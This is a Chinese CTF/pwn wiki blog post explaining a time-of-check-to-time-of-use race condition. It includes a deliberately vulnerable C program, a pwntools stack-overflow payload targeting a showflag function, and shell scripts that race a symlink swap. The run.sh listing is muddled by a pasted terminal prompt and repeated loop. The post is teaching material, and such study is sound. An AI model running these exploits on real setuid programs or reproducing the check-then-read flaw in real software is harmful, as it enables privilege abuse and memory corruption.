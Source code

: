```yaml
---
title: Race Condition
date:   2020-07-20 09:14:37
updated: 2020-07-20 09:14:37
tags:
    - 条件竞争漏洞
    - wiki
    - pwn
categories: 
	- 二进制安全
	- wiki-pwn
use:
  - Valine
text: true
lazyload: true
count: true
---
```


# 1.原理

参考seed的实验

<div class="btn-center">
{% btn 'http://zhixia.xyz/2020/06/29/seed/',seed,far fa-hand-point-right,outline orange larger %}
</div>

# 2.例子

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <unistd.h>
void showflag() { system("cat flag"); }
void vuln(char *file, char *buf) {
  int number;
  int index = 0;
  int fd = open(file, O_RDONLY);
  if (fd == -1) {
    perror("open file failed!!");
    return;
  }
  while (1) {
    number = read(fd, buf + index, 128);
    if (number <= 0) {
      break;
    }
    index += number;
  }
  buf[index + 1] = '\x00';
}
void check(char *file) {
  struct stat tmp;
  if (strcmp(file, "flag") == 0) {
    puts("file can not be flag!!");
    exit(0);
  }
  stat(file, &tmp);
  if (tmp.st_size > 255) {
    puts("file size is too large!!");
    exit(0);
  }
}
int main(int argc, char *argv[argc]) {
  char buf[256];
  if (argc == 2) {
    check(argv[1]);
    vuln(argv[1], buf);
  } else {
    puts("Usage ./prog <filename>");
  }
  return 0;
}
```

可以看出程序的基本流程如下

- 检查传入的命令行参数是不是 “flag”，如果是的话，就退出。
- 检查传入的命令行参数对应的文件大小是否大于 255，是的话，就直接退出。
- 将命令行参数所对应的文件内容读入到 buf 中 ，buf 的大小为 256。

看似我们检查了文件的大小，同时 buf 的大小也可以满足对应的最大大小，但是这里存在一个条件竞争的问题。

如果我们在程序检查完对应的文件大小后，将对应的文件删除，并符号链接到另外一个更大的文件，那么程序所读入的内容就会更多，从而就会产生栈溢出。

那么，基本思路来了，我们是想要获得对应的`flag`的内容。那么我们只要通过栈溢出修改对应的`main`函数的返回地址即可，通过反汇编以及调试可以获得`showflag`的地址，获得对应的 payload

```python

from pwn import *
test = ELF('./test')
payload = 'a' * 0x100 + 'b' * 8 + p64(test.symbols['showflag'])
open('big', 'w').write(payload)
#payload.py
```

exp.sh

```bash
#!/bin/sh
for i in `seq 500`
do
    cp small fake
    sleep 0.000008
    rm fake
    ln -s big fake
    rm fake
done
```

run.sh

```bash
#!/bin/sh
for i in `seq 500`
do
    cp small fake
    sleep 0.000008
    rm fake
    ln -s big fake
    rm fake
done
➜  racetest cat run.sh 
#!/bin/sh
for i in `seq 1000`
do
    ./test fake
done
```

ln -s 软链接

seq 用于产生从某个数到另外一个数之间的所有整数

![image.png](https://i.loli.net/2020/11/17/IbtvXou9qyYDmfZ.png)